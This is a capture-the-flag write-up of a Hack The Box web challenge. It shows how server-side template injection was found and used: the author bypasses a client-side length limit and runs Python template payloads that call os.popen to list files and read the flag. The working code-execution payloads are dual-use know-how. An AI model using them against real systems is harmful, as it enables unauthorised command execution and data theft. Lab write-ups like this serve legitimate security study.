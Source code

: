 # Challenge
Trial by Fire

As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategiAc mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

![[HTB Apocalypse/web/Trial by Fire/assets/Pasted image 20250321224731.png]]
In this challenge, we have a prompt based from this we can identify if its vulnerable to some kind of injections. I test several injection techniques, until I found a SSTI with this payload.
```
{{7*7}} //result will be 49
```
```
<input type="text" id="warrior_name" name="warrior_name" class="nes-input" required="" placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
```
Testing SST payloads from [ssti payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), but the thing is the input have character limits. Based from the source code its 30 characters max length.

To bypass this we can modify the html in dev tools, leave it as blank. Then inject our SSTi payload into name input to read the current directory of the system.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```


![[Pasted image 20250321224656.png]]

We got the flag :)
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
![[Pasted image 20250321224956.png]]

![[Pasted image 20250321224853.png]]

![[Pasted image 20250321225037.png]]